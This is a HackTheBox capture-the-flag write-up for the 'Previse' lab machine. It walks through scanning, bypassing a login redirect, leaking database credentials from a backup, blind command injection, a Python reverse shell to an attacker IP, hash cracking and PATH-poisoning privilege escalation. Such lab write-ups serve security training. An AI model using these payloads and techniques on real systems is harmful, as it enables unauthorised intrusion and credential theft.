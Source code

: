 # Previse HackTheBox By Hussien Misbah 

![image](https://user-images.githubusercontent.com/67979878/148392133-bedae80a-7ec0-46a0-ba22-1b6d5359b375.png)


instead of copy and paste the ip repeatedly we can export the ip value and assign variable name ``$IP`` in the current bash shell 

```bash
export IP=10.10.11.104
```
# scanning :

will start with a basic scan and can scan all ports in background in case this wan't helpful for us .

```bash
sudo nmap -sV -vv $IP -oN nmap/intial 
```

```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.29 ((Ubuntu))
```

visiting the web page :

![Pasted image 20211002032239](https://user-images.githubusercontent.com/67979878/148391150-b7965f0b-8cc4-47ac-aa7c-b1e093a5c88e.png)

tried some sqli but not worked 

## directory brute-force :

```bash
$ gobuster dir -u http://10.10.11.104/ -w /usr/share/dirb/wordlists/big.txt -x php,txt
```

found :

```bash
/accounts.php         (Status: 302) [Size: 3994] [--> login.php]
/config.php           (Status: 200) [Size: 0]                   
/download.php         (Status: 302) [Size: 0] [--> login.php]                 
/files.php            (Status: 302) [Size: 4914] [--> login.php]              
```

you can use curl without enabling redirect  and will notice the same thing immediately 

```bash
curl http://10.10.11.104/accounts.php -vvv     
```

But i opened up my burpsuite and observe the requests and response for /accounts.php

- there is a redirect happen to /login.php again . 
- i do intercept the redirect and found : 

![Pasted image 20211002033401](https://user-images.githubusercontent.com/67979878/148391173-ecb237b8-8962-48e7-858d-1b60e3be4f0e.png)

hence i want to view and interact with this page , i changed the  HTTP 302 redirect to HTTP 200 OK 

![Pasted image 20211002033552](https://user-images.githubusercontent.com/67979878/148391191-148fdc33-f415-4ebf-8110-aa9827290254.png)

forward it :

![Pasted image 20211002033625](https://user-images.githubusercontent.com/67979878/148391197-0399671b-650f-413f-afd8-a7fc76ad76e0.png)

i made an account and then redirected me to /login.php again so i logged in successfully 

![Pasted image 20211002034057](https://user-images.githubusercontent.com/67979878/148391208-b0eb880c-cb58-4621-a8de-dd4bada49fe2.png)

navigating through the tabs found :

![Pasted image 20211002034221](https://user-images.githubusercontent.com/67979878/148391215-2690564d-b6ab-4933-aa62-3776ec473234.png)

so i downloaded the backup and found :

![Pasted image 20211002034249](https://user-images.githubusercontent.com/67979878/148391225-1c3686f8-f733-4005-8808-300d73a593b0.png)

in config.php :

```php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

after some navigating in the files :

in /logs.php

![Pasted image 20211002034826](https://user-images.githubusercontent.com/67979878/148391593-466c6856-1fae-4f5a-b817-ff3cf2372929.png)

- so we can see the exec function  which most likely indicating RCE , and python is executing on a script and seems the script saves output in out.log .

- understanding the logic at my local machine :

![Pasted image 20211002041124](https://user-images.githubusercontent.com/67979878/148391624-abe26f8a-da55-4263-9b7f-9df8de4c8490.png)

- so we can inject any command like : 
``delim=comma;INJECTION`` However it won't be printed in logs.out so it is a Blind RCE . 

- we can get a shell immediatley 

[+] from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#python

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<your_ip>",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'
```

![image](https://user-images.githubusercontent.com/67979878/148393295-4efc60e2-69c5-4ca2-8ab1-6ff609f34b53.png)
![image](https://user-images.githubusercontent.com/67979878/148393553-8065a828-09eb-4934-8923-38c27045adf0.png)
```python
# stablizie the shell 
$ python -c "import pty;pty.spawn('/bin/bash')"
```

hence we are in the machine now so we can access local host and view data base :D 

```bash
mysql -h localhost -u root -p previse
```

```sql

mysql> SELECT table_name FROM information_schema.tables;
```

![Pasted image 20211002042525](https://user-images.githubusercontent.com/67979878/148391748-243a146f-d711-42cf-8aed-e5a3cf7d7298.png)

- so we need m4lware password only `i guess :3` let's get it and try crack the hash from here: 

https://gist.github.com/dwallraff/6a50b5d2649afeb1803757560c176401

- we can see it is a md5crypt hash 
```bash
$ hashcat -m 500 -a 0 hashed_m4lware /usr/share/wordlists/rockyou.txt
# 500 : md5crypt
# 0   : straight attack mode
# output :
$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

![Pasted image 20211002043827](https://user-images.githubusercontent.com/67979878/148391766-e2ad47a1-124e-4296-8fd3-dd644bf26fc8.png)

## privilege escalation 

![Pasted image 20211002043918](https://user-images.githubusercontent.com/67979878/148391778-a695bd71-8508-4f94-8071-8a9b505f7e43.png)

so let's read the script : 
```bash
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```

- so it simply makes a backup for the logs with gzip . 
- we can notice ``gzip`` is not written as full path ``/usr/bin/gzip`` and this will allow us to try Path poisoning 

### PATH poisoning
- we can see here :
https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/

we can use that so when we execute this as root "with sudo" gzip will refer to the /tmp in the path 

![Pasted image 20211002044848](https://user-images.githubusercontent.com/67979878/148393698-506ceea5-329b-4a9a-94e3-d39297de522a.png)

i don't know why but the shell doesn't return any result although i gained the root access so i make a reverse shell and it worked perfectly 

![image](https://user-images.githubusercontent.com/67979878/148394272-fec336de-f762-4b73-82b7-fa155bfbe551.png)

# Pwned

